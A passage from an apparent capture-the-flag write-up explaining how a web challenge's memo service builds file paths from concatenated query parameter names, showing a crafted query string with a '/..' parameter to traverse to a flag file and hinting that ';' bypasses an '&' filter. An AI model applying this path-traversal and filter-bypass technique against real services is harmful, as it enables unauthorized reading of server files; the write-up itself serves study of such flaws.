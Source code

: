The above code checks if there is any `.` , `&` character in the request.url.query


I couldn't find any way to solve this challenge, so I waited for the  solution . The solutions were pretty amazing to me, there was also one unintended solution which kinda blew my mind.


-----------------------------

Intended Solution:
------------------

This is how the path is generated:

//code 5
```python
path = './memo/' + "".join(request.query_params.keys()) + '/' + filename
```

`request.query_params.keys()` returns the parameter names as an array

For eg: 
If this is the url: http://hack.x/?paramA=valueA&paramB=valueB
Then,
`request.query_params.keys()` will return  `dict_keys(['paramA', 'paramB'])`

`"".join` will just join both the values which will return `paramAparamB`


As we can't use `&` in our url due to the if condition check (check `Code 4` ).So we need to find some other way to include another parameter.
If the `&` character check wasn't there, we could have easily done something like:


?2987bf4c72b6ade55901d57df14810f7=flag&/..=

```python
>filename = request.query_params[clientId]
>print("Filename: {}".format(filename))
Filename: flag

>print("request.query_params: {}".format(request.query_params))
request.query_params: 2987bf4c72b6ade55901d57df14810f7=flag&/..=

>print("request.query_params.keys(): {}".format(request.query_params.keys()))
request.query_params.keys(): dict_keys(['2987bf4c72b6ade55901d57df14810f7', '/..'])

>path = './memo/' + "".join(request.query_params.keys()) + '/' + filename
Path: ./memo/2987bf4c72b6ade55901d57df14810f7/../flag
```

When this path  `./memo/2987bf4c72b6ade55901d57df14810f7/../flag` will be passed to open() function , it will return the contents of the *flag* file.

But as we can't use the `&` character this theory isn't possible currently.

------------------------------

**`&` and `;` are treated similarly**
